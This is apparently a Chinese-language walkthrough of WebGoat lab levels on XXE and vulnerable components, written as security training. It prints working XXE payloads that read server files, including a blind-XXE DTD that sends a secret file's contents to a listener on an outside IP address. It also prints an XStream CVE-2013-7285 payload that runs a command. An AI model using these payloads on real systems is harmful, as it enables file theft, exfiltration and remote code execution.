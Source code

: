 ## (A5) Security Misconfiguration
### 1. XXE
+ 1-4, 这关是需要通过XXE获取服务器的root目录，我们先提交一个看看请求，
![img](img/5-1-4-1.png)  
可以看到是xml提交的，获取目录可以用file://协议：
```
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY ls SYSTEM "file:///">
]>
<comment>  <text>&ls;</text></comment>
```
![img](img/5-1-4-2.png)

+ 1-7,这关目标跟上关一样，但是这关提交数据的格式是json，所以不能直接XXE注入，但是如果开发者不做限制的话，改content-type，也是可以用xml的。所以这关直接改content-type
![img](img/5-1-7.png)
+ 1-11,这关比较复杂，需要通过XXE盲注获取服务器的一个文件，然后将文件里的内容填入评论。这里要借助webwolf.思路是这样的，先上传一个dtd文件到webwolf,内容如下：
```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///home/webgoat/.webgoat-2023.8/XXE/admintest/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:9090/WebWolf/landing?text=%file;'>">
```
这个文件实现的是 读取文件服务器secret的内容，然后将这个内容通过http请求到webwolf。到时候就可以在wolf看到。然后再请求里注入触发这个dtd.
```
<?xml version="1.0"?>
<!DOCTYPE author [
  <!ENTITY % ls SYSTEM "http://119.3.108.215:9090/WebWolf/files/admintest/attack1.dtd">
%ls;
%print;
%send;
]>
<comment>  <text>
aaaaa</text></comment>
```
![img](img/5-1-11-1.png)
再看webwolf,可以看到secret的内容，这是url编码后的，解码即可：
![img](img/5-1-11-2.png)


## (A6) Vuln & Outdated Components
### 1. Vulnerable Components
+ 1-5，这里主要是展示同一个组件不同版本会有不同的问题，以jquery-ui为例，这关直接点击即可。

+ 1-12，这关是要根据漏洞[CVE-2013-7285](https://nvd.nist.gov/vuln/detail/CVE-2013-7285) 
 是想远程执行命令，
```
<contact class='dynamic-proxy'>
<interface>org.owasp.webgoat.lessons.vulnerablecomponents.Contact</interface>
  <handler class='java.beans.EventHandler'>
    <target class='java.lang.ProcessBuilder'>
      <command>
        <string>pwd</string>
      </command>
    </target>
    <action>start</action>
  </handler>
</contact>
```



